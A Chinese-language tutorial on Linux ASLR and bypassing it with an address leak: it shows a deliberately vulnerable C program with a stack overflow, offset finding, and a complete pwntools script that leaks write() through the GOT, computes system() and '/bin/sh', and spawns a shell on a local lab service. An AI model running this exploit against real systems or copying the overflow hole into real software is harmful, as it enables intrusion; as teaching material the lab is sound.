 # Linux下的ASLR（PIE）内存保护机制和绕过

### 1.1  Linux下的ASLR内存保护机制

#### 1.1.1  Linux下的ASLR工作原理

工作原理与window下的aslr类似

![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142730266-504241689.png)

#### 1.1.2 Linux下利用内存地址泄露绕过ASLR

##### ⑴. 原理分析：

那么如何解决地址随机化的问题呢？

思路是：我们需要先泄漏出libc.so某些函数在内存中的地址，然后再利用泄漏出的函数地址根据偏移量计算出system()函数和/bin/sh字符串在内存中的地址，然后再执行我们的ret2libc的shellcode。既然栈，libc，heap的地址都是随机的。我们怎么才能泄露出libc.so的地址呢？方法还是有的，因为程序本身在内存中的地址并不是随机的，所以我们只要把返回值设置到程序本身就可执行我们期望的指令了。

首先我们利用objdump来查看可以利用的plt函数和函数对应的got表：



![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142755931-669070785.png)



![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142817936-96151926.png)



我们发现除了程序本身的实现的函数之外，我们还可以使用read@plt()和write@plt()函数。但因为程序本身并没有调用system()函数，所以我们并不能直接调用system()来获取shell。但其实我们有write@plt()函数就够了，因为我们可以通过write@plt  ()函数把write()函数在内存中的地址也就是write.got给打印出来。既然write()函数实现是在libc.so当中，那我们调用的write@plt()函数为什么也能实现write()功能呢?  这是因为linux采用了延时绑定技术，当我们调用write@plit()的时候，系统会将真正的write()函数地址link到got表的write.got中，然后write@plit()会根据write.got 跳转到真正的write()函数上去。（如果还是搞不清楚的话，推荐阅读《程序员的自我修养 - 链接、装载与库》这本书）

因为system()函数和write()在libc.so中的offset(相对地址)是不变的，所以如果我们得到了write()的地址并且拥有目标服务器上的libc.so就可以计算出system()在内存中的地址了。然后我们再将pc指针return回vulnerable_function()函数，就可以进行ret2libc溢出攻击，并且这一次我们知道了system()在内存中的地址，就可以调用system()函数来获取我们的shell了。

##### ⑵．环境准备：

i．漏洞代码：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

void flow(){
  char buf[128];
  read(STDIN_FILENO,buf,256);
}

int main(){
  flow();
  char a[]="hello";
  write(STDOUT_FILENO,a,strlen(a));
  return 0;
}

编译指令：
gcc -fno-stack-protector -g -m32 -o vuln vuln.c
```

ii．测试环境：

测试系统：Ubuntu 16.04

辅助插件：peda

系统开启aslr：

![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142843753-614701930.png)

##### ⑶．测试分析：

i．存在漏洞的函数flow返回地址：

反汇编主函数：

![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142907399-477699356.png)

漏洞函数位置：0x0804846b。

 

ii．确定偏移量：

利用pattern.py脚本实现(可以在GitHub上下到)：

生成150字节的字符串



![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142930272-2093926147.png)

 

在调试器运行程序：



![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142951734-1054619155.png)



返回地址被覆盖为0x37654136： 

确定偏移：



![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613143016271-581328692.png)

 

偏移量为140字节。

##### ⑷．攻击过程：

i．exp脚本：

```py
\#!/usr/bin/env python

from pwn import *

 

libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('/home/zhang/pass_NX/vuln')

 
p = remote('127.0.0.1', 10003)

 
plt_write = elf.symbols['write']
print 'plt_write= ' + hex(plt_write)
got_write = elf.got['write']
print 'got_write= ' + hex(got_write)
vulfun_addr = 0x804846b
print 'vulfun= ' + hex(vulfun_addr)

 
“””plt_write是主程序中write函数的地址，也是write@plt()函数的地址，后面是write函数的参数，将got表中的write()函数的真实地址写入到stdout。”””
payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(got_write) + p32(4)
 

print "\n###sending payload1 ...###"
p.send(payload1)


print "\n###receving write() addr...###"
write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)

 
print "\n###calculating system() addr and \"/bin/sh\" addr...###"
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
print 'system_addr= ' + hex(system_addr)
binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
print 'binsh_addr= ' + hex(binsh_addr)

 
payload2 = 'a'*140 + p32(system_addr) + p32(vulfun_addr) + p32(binsh_addr)

 
print "\n###sending payload2 ...###"
p.send(payload2)
p.interactive()
```



ii. 运行脚本，攻击成功：



![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613143050665-183788241.png)
